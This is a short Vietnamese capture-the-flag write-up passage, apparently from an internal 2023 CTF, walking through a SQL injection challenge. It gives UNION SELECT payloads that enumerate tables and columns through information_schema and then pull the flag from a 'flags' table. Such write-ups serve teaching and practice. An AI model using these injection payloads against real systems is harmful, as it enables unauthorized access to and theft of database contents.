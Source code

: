 Dò tên bảng:

```sql
1 UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = 'sql_level2'
```

Dò tên cột:

```sql
1 UNION SELECT NULL, column_name from information_schema.columns where table_schema='sql_level2' and table_name='flags'
```

(Có hint tên bảng là: flags và tên cột là **flag** 😉😉)

Dùng payload: `1 UNION SELECT flag, flag from flags` sẽ lấy được flag.

![Alt text](/images/writeups/writeup-vsl-ctf-internal-2023/image43.png)
